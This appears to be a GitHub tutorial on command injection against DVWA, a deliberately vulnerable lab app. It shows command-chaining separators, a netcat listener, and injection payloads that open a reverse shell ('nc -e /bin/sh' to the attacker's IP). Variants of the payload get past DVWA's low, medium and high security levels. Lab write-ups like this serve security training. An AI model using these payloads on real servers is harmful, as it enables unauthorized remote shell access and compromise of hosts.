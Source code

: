 
# Command Injection

![image](https://user-images.githubusercontent.com/60937657/199600432-20c86df1-0b87-4137-b490-36c53d67e3cd.png)

Command Injection attack is performed by using arbitrary commands(The command which helps the system to run for example the commands used to play around with the file management system).

## What can we do by using the Command Injection attack ?

1. We can get control over the shell or terminal of the server where the website is hosted.   
2. Can upload shell using wget command on the public platform which can be highly exploitable.  

## Performing attack on DVWA 

1. Changing the security level of DVWA to low level of security. 

![image](https://user-images.githubusercontent.com/60937657/194223462-0e43d07a-d6dd-4291-8777-f9c30ff0c9e2.png)

![image](https://user-images.githubusercontent.com/60937657/194223357-3a83b501-8961-4646-b043-efc1e4060faf.png)

2. Find the IP address using terminal. 

```
  ifconfig 
```

3. Enter IP address to DVWA.  

![image](https://user-images.githubusercontent.com/60937657/194224867-2863f530-e203-4c53-92bf-344421fb8116.png)

4. Performing arbitrary command.

**Note** We will use arbitrary commands using piping. 

**For Example** 

```
  ls ; pwd 
```
```
  ls && pwd 
```
```
#In this way of piping we will only be output of final command which in pwd in this case.
  ls | pwd 
```
![image](https://user-images.githubusercontent.com/60937657/194370933-c383fb1c-ca37-48d2-ba90-a91d5ae01d8c.png)

5. Make a connection in shell of website server with terminal of our machine by starting netcat services for linux based server 

Using the below given command in terminal.

```
nc -vv -l -p 8080
```

![image](https://user-images.githubusercontent.com/60937657/194373887-5eb2d874-5036-4779-b0e8-a3bd5dbcdf2e.png)

**Note** Netcat service will always be hosted in bin folder of linux as per the architecture.

6. Using a command in which we are going to use IP of our OS to fire on website by which we are going to get a connection in out terminal. 

```
IP_Address_of_my_OS ; nc -e /bin/sh IP_Address_of_my_OS 8080
```

![image](https://user-images.githubusercontent.com/60937657/194376389-1efd866c-c799-491e-8f69-ea807c39928c.png)

7. Changing the DVWA Security level to medium and then performing command injection using different piping method. 

```
IP_Address_of_my_OS | nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195312022-384fa5e3-338b-45b8-a3ed-73d796266087.png)

8. Changing the DVWA Security level to high and then performing command injection by just not providing any space while piping. 

```
IP_Address_of_my_OS|nc -e /bin/sh IP_Address_of_my_OS 8080
``` 

![image](https://user-images.githubusercontent.com/60937657/195314107-abebbe23-9775-4697-a6ce-192359913e07.png)

**Note** Can also use cat command to display the contents of one or more file without having to open the file for editing. 

![image](https://user-images.githubusercontent.com/60937657/195314710-90a92522-dc9e-417c-b44d-341bc200b5e7.png)

9. Precaution to avoid command injection attack.

To avoid this type of major attack we can add blacklist as given in the image below. 

![image](https://user-images.githubusercontent.com/60937657/195316315-3f95c69c-83c0-4a0a-8b3f-8611104f6a4e.png)

![image](https://user-images.githubusercontent.com/60937657/195316066-a42cb9eb-159d-4077-8731-86e7b3123d5c.png)







